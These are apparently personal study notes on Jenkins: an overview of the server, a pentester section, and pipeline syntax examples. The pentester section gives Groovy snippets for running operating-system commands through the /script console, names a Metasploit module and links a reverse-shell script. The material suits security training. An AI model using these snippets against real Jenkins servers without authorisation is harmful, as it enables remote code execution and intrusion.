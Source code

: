 # Jenkins

<div class="row row-cols-lg-2"><div>

[Jenkins](https://www.jenkins.io/) is an open-source automation server. It means that it's not a server hosting code, but it can be connected to a GIT server such as GitLab to process [CI/CD](index.md) workflows.

* [GitHub](https://github.com/jenkinsci/jenkins) <small>(21.9k ⭐)</small>
* [User Documentation](https://www.jenkins.io/doc/book/) <small>(⛪)</small>

The biggest strength of Jenkins is that it has a great number of [plugins](https://plugins.jenkins.io/), such as plugins to visualize CI results (tests, coverage...).
</div><div>

Jenkins is written in Java, while [Groovy](https://www.groovy-lang.org) is often used for plugins and for configuration files. It runs on [Apache Tomcat](/operating-systems/cloud/webservers/others/tomcat/index.md).

**Ports** 🐲: 8080 <small>(HTTP)</small> and 5000 <small>(Master/Slave communication)</small>.

Jenkins can be connected to a database or LDAP.
</div></div>

<hr class="sep-both">

## Jenkins Pentester Notes ☠️

[![attacking_common_applications](../../../cybersecurity/_badges/htb/attacking_common_applications.svg)](https://academy.hackthebox.com/course/preview/attacking-common-applications)
[![jenkins_security](../../../cybersecurity/_badges/hacktricks/jenkins_security.svg)](https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security)

<div class="row row-cols-lg-2"><div>

Useful reference: [pwn_jenkins](https://github.com/gquere/pwn_jenkins) <small>(1.7k ⭐)</small>.

#### Enumeration

* Try to access the login page (`/login`)

#### Foothold

* Some Jenkins instances don't have authentication
* Some Jenkins instances may allow us to create accounts
</div><div>

#### Exploitation

The `/script` endpoint can be used to run groovy code.

```groovy
def command = "ls /"
def stdout = new StringBuffer(), stderr = new StringBuffer()
def process = command.execute()
process.consumeProcessOutput(stdout, stderr)
process.waitForOrKill(1000)
def exitCode = process.exitValue()
def output = stderr + stdout

println("Exit Code: ${exitCode}")
println("Output:\n${output}")
```

➡️ See also: [revsh.groovy](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) <small>(0.1k ⭐)</small>.

<details class="details-n">
<summary>Additional Notes For /script</summary>

Metasploit: `exploit/multi/http/jenkins_script_console`.

```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/ls","-la"] as String[])
p.waitFor()
```

```groovy
def cmd = "cmd.exe /c dir".execute();
println("${cmd.text}");
```
</details>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* master/slaves (a.k.a. workers)
* freestyle projects (web interface) vs pipeline jobs (as code)
* Jenkinsfile (groovy)
* `/var/lib/jenkins3/`
</div><div>

<details class="details-n">
<summary>Basic file</summary>

```java
pipeline {
    agent any
    stages {
        stage('xxx') {
            steps {
                git 'https://github.com/example/my-java-app.git'
                git branch: env.BRANCH_NAME, url: 'URL'
                sh 'xxx'
            }
        }
    }
}
```
</details>

<details class="details-n">
<summary>Add options</summary>

```java
    options {
        buildDiscarder(logRotator(numToKeepStr: '10', daysToKeepStr: '7'))
    }
```
</details>

<details class="details-n">
<summary>Poll SCM or webhooks to trigger a pipeline</summary>

```java
    triggers {
        cron('H H(0-7) * * 1-5')
        webhook('')
    }
```
</details>

<details class="details-n">
<summary>Artifacts are the output of the build</summary>

```java
    post {
        always {
            junit '*.xml'
        }
        success {
            archiveArtifacts '*.xml'
        }
    }
```
</details>

<details class="details-n">
<summary>Bonus</summary>

```java
stage('xxx') {
    when {
        branch 'development'
    }
}
```

```java
// https://plugins.jenkins.io/warnings-ng/
recordIssues(
    tools: [clangTidy(pattern: 'clang-tidy-report.txt')]
)
```
</details>
</div></div>